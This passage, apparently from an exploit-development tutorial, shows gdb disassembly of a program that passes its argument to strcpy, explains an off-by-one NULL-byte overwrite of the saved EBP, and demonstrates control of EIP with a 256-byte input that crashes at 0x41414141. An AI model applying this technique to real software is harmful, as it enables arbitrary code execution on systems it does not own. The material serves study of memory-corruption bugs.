 ```
Dump of assembler code for function foo:
 //Function prologue
 0x08048464 <+0>: push %ebp                    //backup caller's (main) ebp
 0x08048465 <+1>: mov %esp,%ebp                //set callee's (foo) ebp to esp
 0x08048467 <+3>: sub $0x4,%esp                //create stack space
 0x0804846a <+6>: mov 0x8(%ebp),%eax           //foo arg
 0x0804846d <+9>: mov %eax,(%esp)              //bar arg = foo arg
 0x08048470 <+12>: call 0x8048477              //call bar

 //Function Epilogue 
 0x08048475 <+17>: leave                       //unwind stack space + restore ebp
 0x08048476 <+18>: ret                         //return
End of assembler dump.
(gdb) disassemble bar
Dump of assembler code for function bar:
 //Function Prologue
 0x08048477 <+0>: push %ebp                    //backup caller's (foo) ebp
 0x08048478 <+1>: mov %esp,%ebp                //set callee's (bar) ebp to esp
 0x0804847a <+3>: sub $0x108,%esp              //create stack space
 0x08048480 <+9>: mov 0x8(%ebp),%eax           //bar arg
 0x08048483 <+12>: mov %eax,0x4(%esp)          //strcpy arg2
 0x08048487 <+16>: lea -0x100(%ebp),%eax       //buf
 0x0804848d <+22>: mov %eax,(%esp)             //strcpy arg1
 0x08048490 <+25>: call 0x8048370 <strcpy@plt> //call strcpy

 //Function Epilogue
 0x08048495 <+30>: leave                       //unwind stack space + restore ebp
 0x08048496 <+31>: ret                         //return
End of assembler dump.
(gdb)
```

Stack Layout:

As we already know user input of size 256, overwrites the LSB of foo’s EBP with a NULL byte. So when foo’s EBP stored just above destination buffer ‘buf’ is overwritten with a single NULL byte, ebp gets changed from 0xbffff2d8 to 0xbffff200. From the stack layout we could see that stack location 0xbffff200 is part of destination buffer ‘buf’ and since user input gets copied into this destination buffer, attacker has control over this stack location (0xbffff200) and thus he has control over instruction pointer (eip) using which he can achieve arbitrary code execution. Lets test this out by sending a series of “A”‘s of size 256.

## Test Step 1: Is EBP overwrite and thus return address overwrite possible?
```
(gdb) r `python -c 'print "A"*256'`
Starting program: /home/sploitfun/lsploits/new/obo/stack/vuln `python -c 'print "A"*256'`

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
